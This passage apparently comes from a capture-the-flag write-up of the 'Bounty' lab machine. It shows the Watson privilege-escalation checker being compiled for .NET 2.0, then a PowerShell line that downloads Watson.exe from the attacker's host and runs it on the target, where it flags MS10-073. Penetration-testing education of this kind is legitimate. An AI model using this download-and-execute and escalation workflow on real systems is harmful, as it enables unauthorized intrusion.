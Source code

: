 So, I’ll go to “Build” –> “Build Solution”, and see the output like this:

![1540586312675](https://0xdfimages.gitlab.io/img/1540586312675.png)

And, if I go to that folder and run it, it works:

![1540586348018](https://0xdfimages.gitlab.io/img/1540586348018.png)

I can take that binary over to Bounty and run it, but nothing will return. Why? Rasta Mouse explained that in this post: <https://rastamouse.me/2018/09/a-lesson-in-.net-framework-versions/>

The TL;DR is that you have to build the exe to match the version of .NET installed on target.

From Bounty:

```

PS C:\windows\microsoft.net\framework\v2.0.50727> \windows\microsoft.net\framework\v2.0.50727\msbuild -version
Microsoft (R) Build Engine Version 2.0.50727.4927
[Microsoft .NET Framework, Version 2.0.50727.4927]
Copyright (C) Microsoft Corporation 2005. All rights reserved.
2.0.50727.4927

```

So back in Visual Studio, “Project” –> “Watson Properties…” will launch a window where I can set the “Target Framework”:

![1540586719230](https://0xdfimages.gitlab.io/img/1540586719230.png)

When I had originally written this post, this is where things failed. Watson wouldn’t compile for .NET Framework 2.0:

![1540586764022](https://0xdfimages.gitlab.io/img/1540586764022.png)

But, thanks to super quick work from Rasta Mouse and Mark-S, they updated it this morning, and it works now.

So build again with .NET Framework 2.0, copy it over to Bounty, and run it:

```

PS C:\users\merlin\appdata\local\temp> (new-object net.webclient).downloadfile('http://10.10.14.5/Watson.exe', '\users\merlin\appdata\local\temp\watson.exe')
PS C:\users\merlin\appdata\local\temp> .\watson.exe
  __    __      _
 / / /\ \ \__ _| |_ ___  ___  _ __
 \ \/  \/ / _` | __/ __|/ _ \| '_ \
  \  /\  / (_| | |_\__ \ (_) | | | |
   \/  \/ \__,_|\__|___/\___/|_| |_|

                           v0.1

                  Sherlock sucks...
                   @_RastaMouse

 [*] OS Build number: 7600
 [*] CPU Address Width: 64
 [*] Process IntPtr Size: 8
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS10-073
   [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.
   [>] Exploit: https://www.exploit-db.com/exploits/36327/
   [>] Notes: None.

```